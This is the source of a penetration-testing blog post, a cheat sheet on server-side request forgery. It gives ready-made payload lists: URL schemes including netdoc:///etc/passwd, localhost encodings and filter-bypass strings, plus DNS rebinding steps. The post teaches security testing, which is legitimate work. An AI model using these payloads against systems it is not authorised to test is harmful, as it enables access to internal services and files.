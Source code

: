 ```yaml
---
layout: blog_item
title: "SSRF Cheat Sheet & Bypass Techniques"
date:   2021-05-30 09:29:10
author: Arr0way
description: 'SSRF explained and the techniques to indentify, and bypass server side SSRF filtering.'
categories: [cheat-sheet]
tags:
- SSRF
- 'Web Application Penetration Testing'
---
```


* list element with functor item
{:toc}

## What is SSRF? 

Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality, you can gain a larger understanding on what SSRF on [Aptive's](https://www.aptive.co.uk/blog/what-is-server-side-request-forgery-ssrf/) website. 

Another way to understand this is to imagine the vulnerable function within the web application as acting like a web browser, which can be used to pivot or relay requests to internal interface addresses, the loopback address, or the internal network in order to access internal services — effectively bypassing the WAF or firewall.

An example of this might be a web function that allows users to submit a URL or integrate a third-party service. This could potentially be exploited to access internal or local IP addresses.

When SSRF is identified in applications using modern frameworks or protected by a WAF, additional effort is often needed to bypass the filtering or security mechanisms in place, in order to successfully exploit the vulnerability.

<!--more-->


## Identifying Potential Locations for SSRF

Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

## How to Find SSRF Vulnerabilities 

In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">is using your own Burp Collaborator on Linode using this link to get a  $100 voucher</a>. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control). 

<div class="note tip">
  <h5>PRO TIP: Run Your Own Collaborator Server</h5>
  <p>If you are taking part in bug bounty programs run your own Burp Collaborator  server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.</p>
    
    <p><a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode works great for this</a>, it's cheap, fixed price and has a direct public IP address.</p>
</div>

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.  

## SSRF Whitelist Filter Bypass 

### Timing Difference

At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP's or ports are being fitlered. 

### URL Schema / Wrappers

The following URL schemas can be potentially exploited by SSRF vulnerabilies. 

The URL schemas have been sorted by framework / language. 



#### PHP SSRF Wrappers / URL Schema 

The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled). 

{% highlight bash %}
gopher://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
{% endhighlight %}

#### ASP.NET SSRF Wrappers / URL Schema 

The following wrappers are potentiall expected URL schema wrappers found within ASP.NET environments (gopher legacy only). 

{% highlight bash %}
gopher://
ftp://
file://
http://
https://
{% endhighlight %}

#### Java SSRF Wrappers / URL Schema 

The following wrappers are expected within Java environments, and can be used to potentially exploit [LFI](https://highon.coffee/blog/lfi-cheat-sheet/) vulnerabilities. 

{% highlight bash %} 
ftp://
file://
http://
https://
gopher://
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
{% endhighlight %}

<div class="note tip">
  <h5>NOTE: OpenJDK 8+ Redirects</h5>
  <p>It should be noted that OpenJDK 8+ does not follow redirects if the protocols do not match. </p>
</div>



#### cURL SSRF Wrappers / URL Schema 

The following wrappers are expected with environments using cURL. 

{% highlight bash %}
file:///
dict://
sftp://
ldap://
tftp://
gopher://
ssh://
http://
https://
imap://
pop3://
smtp://
telnet://
{% endhighlight %}


### Open Redirect SSRF Bypass 

Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example: 

{% highlight bash %}
/foo/bar?vuln-function=http://127.0.0.1:8888/secret
{% endhighlight %}

### Basic locahost bypass attempts 

Localhost bypass:

{% highlight bash %}
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
{% endhighlight %}

various bypasses: 

{% highlight bash %}
127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
{% endhighlight %}


### hosts file bypass attempts 

### Enclosed Alphanumeric 

{% highlight bash %}
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
{% endhighlight %}

## DNS rebinding attempts 

### What is a DNS rebinding attack?

In some cases, a target function may "blindly" validate a hostname against a allowlist (aka whitelist) or denylist (aka blacklist) without verifying the resolved IP address. Once the hostname is deemed acceptable by this initial check, it is then passed to the underlying function it was meant to protect.

### How to exploit a vulnerable function

You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP. 

Fortunately taviso has built a [service for this](https://github.com/taviso/rbndr) which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack. 

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

1. go to https://lock.cmpxchg8b.com/rebinder.html add your IP's
2. check it works with host 
3. attempt to exploit the SSRF location with it


## Post Exploitation / Enumeration

In an effort to demonstrate the severity of the SSRF vulnerability enumeration of server side ports could be performed using Burp Intruder. 

The above process could be performed to enumerate other local IP addresses and/or bruteforcing URL (IDOR / Forced Browsing) to identify services or functionality that was not intended by the organisation. 


Happy hunting / pen testing. 

**Sources:** 

- [https://owasp.org/www-community/attacks/Server_Side_Request_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [https://www.aptive.co.uk/blog/what-is-server-side-request-forgery-ssrf/#what-is-server-side-request-forgery-ssrf](https://www.aptive.co.uk/blog/what-is-server-side-request-forgery-ssrf/#what-is-server-side-request-forgery-ssrf)
